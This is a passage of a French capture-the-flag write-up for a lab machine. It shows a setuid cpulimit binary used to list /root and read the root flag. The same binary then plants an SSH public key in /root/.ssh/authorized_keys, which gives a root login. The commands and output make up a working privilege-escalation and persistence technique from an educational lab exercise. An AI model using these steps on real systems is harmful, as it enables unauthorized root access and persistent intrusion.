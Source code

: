 Effectivement l'effective UID est root, ce qui est propre aux binaires setuid mais l'exécutable n'appelant pas ensuite les fonctions setuid/setgid on ne pourra pas obtenir un shell avec les accès que l'on souhaite.  

On peut toutefois profiter de cet effective UID pour passer les restrictions sur les fichiers :  

```plain
$ cpulimit -l 50 -- ls -al /root
total 56
drwx------  8 root root 4096 Dec 14  2019 .
drwxr-xr-x 20 root root 4096 Dec 10  2019 ..
-rw-------  1 root root  162 Dec 14  2019 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwx------  2 root root 4096 Dec 13  2019 .cache
drwxr-xr-x  3 root root 4096 Dec 13  2019 .composer
drwx------  3 root root 4096 Dec 13  2019 .gnupg
drwxr-xr-x  3 root root 4096 Dec 13  2019 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
drwx------  2 root root 4096 Dec 10  2019 .ssh
-rw-------  1 root root 6581 Dec 13  2019 .viminfo
-rw-r--r--  1 root root  547 Dec 13  2019 root.txt
drwxr-xr-x  3 root root 4096 Dec 10  2019 snap
Process 13629 detected
```

On peut ainsi récupérer le flag *root.txt* :  

```plain
########    #####     #####   ########         ########  
##     ##  ##   ##   ##   ##     ##            ##     ## 
##     ## ##     ## ##     ##    ##            ##     ## 
########  ##     ## ##     ##    ##            ########  
##   ##   ##     ## ##     ##    ##            ##   ##   
##    ##   ##   ##   ##   ##     ##            ##    ##  
##     ##   #####     #####      ##    ####### ##     ##

MD5-HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

Blog: www.hackNos.com

Linkedin: https://in.linkedin.com/in/rahulgehlaut
```

Et si vraiment on souhaite avoir un shell root on passera une fois de plus par le fichier *authorized\_keys* :  

```bash
echo "ssh-rsa --ma-cle-publique-ssh--" > authorized_keys
cpulimit -l 50 -- mkdir /root/.ssh
cpulimit -l 50 -- cp authorized_keys /root/.ssh/
```

Finalement :  

```bash
ssh root@192.168.2.10
Enter passphrase for key '/home/devloop/.ssh/id_rsa': 
Last login: Sat Dec 14 00:21:20 2019
root@hacknos:~# id
uid=0(root) gid=0(root) groups=0(root)
```


*Published November 24 2021 at 18:04*
